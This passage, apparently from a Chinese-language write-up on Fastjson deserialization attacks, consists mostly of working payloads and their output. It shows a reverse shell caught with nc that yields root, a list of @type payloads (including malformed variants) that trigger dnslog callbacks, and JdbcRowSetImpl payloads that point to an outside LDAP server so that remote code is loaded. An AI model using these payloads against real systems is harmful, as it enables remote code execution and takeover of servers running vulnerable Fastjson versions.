 ```bash
    }
}
```
同理即可获得反弹shell：
```bash
# nc -lvnp 12341
Listening on 0.0.0.0 12341
Connection received on 120.242.209.70 3450
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@5a8812147218:/# whoami
whoami
root
```

## dnslog

```bash
{"rand1":{"@type":"java.net.InetAddress","val":"http://dnslog"}}

{"rand2":{"@type":"java.net.Inet4Address","val":"http://dnslog"}}

{"rand3":{"@type":"java.net.Inet6Address","val":"http://dnslog"}}

{"rand4":{"@type":"java.net.InetSocketAddress"{"address":,"val":"http://dnslog"}}}

{"rand5":{"@type":"java.net.URL","val":"http://dnslog"}}

一些畸形payload，不过依然可以触发dnslog：
{"rand6":{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}}
{"@type": "java.lang.AutoCloseable"


{"rand7":Set\[{"@type":"java.net.URL","val":"http://dnslog"}\]}

{"rand8":Set\[{"@type":"java.net.URL","val":"http://dnslog"}

{"rand9":{"@type":"java.net.URL","val":"http://dnslog"}


{"@type": "java.lang.AutoCloseable"
```


---

```bash


{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://47.52.233.92:9999/expUseful","autoCommit":true}}

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://47.52.233.92:9999/expUseful","autoCommit":true}
```

---
